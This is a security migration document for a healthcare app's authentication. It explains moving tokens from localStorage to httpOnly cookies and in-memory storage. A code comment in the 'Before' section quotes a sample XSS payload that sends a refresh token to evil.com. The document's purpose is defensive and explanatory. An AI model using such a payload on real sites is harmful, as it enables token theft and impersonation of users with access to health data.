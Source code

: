 # Security Migration: XSS Protection for Authentication

## Executive Summary

This migration addresses a **critical XSS vulnerability** in the authentication system by moving from localStorage-based token storage to a more secure cookie-based approach with in-memory access tokens.

### Security Improvements

✅ **Refresh tokens** stored in httpOnly cookies (immune to XSS)
✅ **Access tokens** stored in memory only (cleared on page refresh)
✅ **CSRF protection** enabled for authenticated endpoints
✅ **SameSite=Strict** cookies prevent CSRF attacks
✅ **Secure flag** enabled in production (HTTPS only)

---

## The Problem: XSS Vulnerability

### Before (INSECURE ❌)

```typescript
// VULNERABLE: Tokens exposed to JavaScript
localStorage.setItem('accessToken', token);
localStorage.setItem('refreshToken', token);

// Any XSS attack could steal tokens:
// <img src="x" onerror="fetch('evil.com?token='+localStorage.getItem('refreshToken'))">
```

**Risk Level**: 🔴 **CRITICAL** for healthcare applications handling PHI (Protected Health Information)

**Attack Vector**: If an attacker injects malicious JavaScript through:

- Compromised third-party scripts
- Stored XSS in user-generated content
- DOM-based XSS vulnerabilities

They could steal tokens and impersonate users, accessing sensitive health data.

---

## The Solution: Defense in Depth

### After (SECURE ✅)

```typescript
// SECURE: Refresh token in httpOnly cookie (JavaScript cannot access)
// Access token in memory only (lost on page refresh, but auto-refreshed)

// Refresh token: Set by backend in httpOnly cookie
response.addHeader(HttpHeaders.SET_COOKIE, 'refresh_token=...; HttpOnly; Secure; SameSite=Strict');

// Access token: Stored in memory only
let accessTokenMemory: string | null = null;
```
